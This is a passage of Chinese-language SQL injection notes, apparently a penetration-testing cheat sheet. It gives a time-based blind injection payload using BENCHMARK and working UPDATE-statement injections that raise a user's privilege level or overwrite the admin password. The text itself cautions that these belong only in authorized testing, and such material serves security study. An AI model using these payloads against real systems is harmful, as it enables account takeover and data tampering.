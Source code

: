 **时间型盲注：**

直接使用sleep不行，需要用BENCHMARK代替
```sql
?id=1 PROCEDURE analyse((select extractvalue(rand(),concat(0x7e,(IF(MID(database(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

## SQL里面只有update怎么利用？

这种方式会修改数据，很危险，在授权测试允许的情况下才考虑

一般在用户修改密码的地方

先理解这句 `SQL`
```sql
UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='$id'
```

如果此 `SQL` 被修改成以下形式，就实现了注入

**1、修改 homepage 值为http://baidu.com', userlevel='3**

之后SQL语句变为
```sql
UPDATE user SET password='mypass', homepage='http://baidu.com', userlevel='3' WHERE id='$id'
```

`userlevel` 为用户级别

**2、修改 password 值为mypass)' WHERE username='admin'#**

之后 `SQL` 语句变为
```sql
UPDATE user SET password='MD5(mypass)' WHERE username='admin'#)', homepage='$homepage' WHERE id='$id'
```

**3、修改 id 值为' OR username='admin'**

之后 `SQL` 语句变为
```sql
UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='' OR username='admin'
```